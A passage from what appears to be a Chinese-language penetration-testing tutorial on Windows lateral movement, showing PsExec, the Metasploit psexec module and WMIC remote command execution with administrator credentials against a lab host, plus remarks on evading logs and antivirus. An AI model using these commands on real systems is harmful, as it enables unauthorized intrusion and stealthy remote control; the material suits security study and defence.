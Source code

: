 或者执行以下命令直接回显命令结果

```
PsExec.exe \\192.168.7.7 -u administrator -p 1qaz@WSX cmd.exe /c "ipconfig"
```

在使用 PsExec 时需要注意以下几点：

* 需要远程系统开启 admin$ 共享（默认是开启的）
* 因为 PsExec 连接的原理是基于 IPC 共享，因此目标需要开放 445 端口
* 在使用 IPC$ 连接目标系统后，不需要输入账户和密码。
* 在使用 PsExec 执行远程命令时，会在目标系统中创建一个 psexec 的服务，命令执行完后，psexec 服务将被自动删除。由于创建或删除服务时会产生大量的日志，因此蓝队在溯源时可以通过日志反推攻击流程。
* 使用 PsExec 可以直接获得 System 权限的交互式 Shell 的前提目标是 administrator 权限的 shell
* 在域环境测试时发现，非域用户无法利用内存中的票据使用 PsExec 功能，只能依靠账号和密码进行传递。

### MSF

MSF 中也有 PsExec 的利用模块，使用方法如下：

```
use exploit/windows/smb/psexec
set rhost 192.168.7.7
set smbuser administrator
set smbpass 1qaz@WSX
run
```

## 2、WMI

WMI 全称 Windows Management Instrumentation 即 Windows 管理工具，Windows 98 以后的操作系统都支持 WMI。

由于 Windows 默认不会将 WMI 的操作记录在日志里，同时现在越来越多的杀软将 PsExec 加入了黑名单，因此 WMI 比 PsExec 隐蔽性要更好一些。

### wmic 命令

WMI 连接远程主机，并使用目标系统的 cmd.exe 执行命令，将执行结果保存在目标主机 C 盘的 ip.txt 文件中

> 使用 WMIC 连接远程主机，需要目标主机开放 135 和 445 端口( 135 端⼝是 WMIC 默认的管理端⼝，wimcexec 使⽤445端⼝传回显)

```
wmic /node:192.168.7.7 /user:administrator /password:1qaz@WSX process call create "cmd.exe /c ipconfig > c:\ip.txt"
```

之后建立 IPC$ ，使用 type 读取执行结果

```
net use \\192.168.7.7\ipc$ "1qaz@WSX" /user:administrator
type \\192.168.7.7\C$\ip.txt
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902112523.png)

也可以预先建立 ipc$ 连接，再使用 wmic

```
net use \\192.168.7.7\ipc$ "1qaz@WSX" /user:administrator
wmic /node:192.168.7.7 process call create "cmd.exe /c ipconfig >c:\ip.txt"
type \\192.168.7.7\C$\ip.txt
```
